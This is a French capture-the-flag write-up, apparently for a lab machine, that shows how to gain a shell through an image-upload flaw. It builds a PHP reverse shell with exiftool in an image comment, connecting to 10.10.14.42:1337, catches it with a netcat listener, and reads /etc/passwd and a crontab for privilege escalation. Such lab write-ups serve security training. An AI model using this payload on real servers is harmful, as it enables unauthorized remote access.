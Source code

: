La commande `python3 -m http.server 65128 -d ..` nous permet de voir dans notre navigateur le dossier parent. 
La commande `php -S 0.0.0.0:65128 -t .. ` nous permet un serveur php avec pour dossier racine le dossier parent (le même que celui exposé maintenant par notre serveur python)

#### Exécution de code php
##### Envoie d'un reverse shell sur le serveur
On upload maintenant une image contenant du code php dans la balise de commentaire.
Cette image étant valide, elle est téléchargée et stockée dans un dossier à usage unique du serveur.

Nous générons l'image contenant un reverse shell php à l'aide de la commande suivante :
```shell
# on crée une image blanche
convert -size 32x32 xc:white img.php # on doit mettre l'extension php pour que le serveur php ne considère pas ce fichier comme une image

# on y ajoute notre payload
exiftool -Comment='<?php  $sock=fsockopen("10.10.14.42",1337);$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);   ?>' img.php

# On vérifie la présence du code PHP
exiftool img.php | grep -i comment
```

On récupère le nom du dossier temporaire qui contient notre image à l'aide du serveur python qui nous offre la possibilité de parcourir chaque dossier temporaire généré.
![[Pasted image 20230226140624.png]]

##### Exécution du reverse shell
On lance un listener netcat : `nc -nlvp 1337`
On accède ensuite à notre image depuis le serveur PHP :
![[Pasted image 20230226141342.png]]

Le reverse shell fonctionne :
```shell
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Elévation de privilèges
### Collecte d'informations

#### Compte utilisateur local
Le fichier /etc/passwd contient le nom de l'utilisateur `smorton`
``` shell
# passwd
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash
```

#### Dossier intéressant
`crontab -l` nous révèle l'existence d'un dossier `/usr/local/investigation/analysed_log`
```shell
*/5 * * * * date >> /usr/local/investigation/analysed_log && echo "Clearing folders" >> /usr/local/investigation/analysed_log && rm -r /var/www/uploads/* && rm /var/www/html/analysed_images/*
```
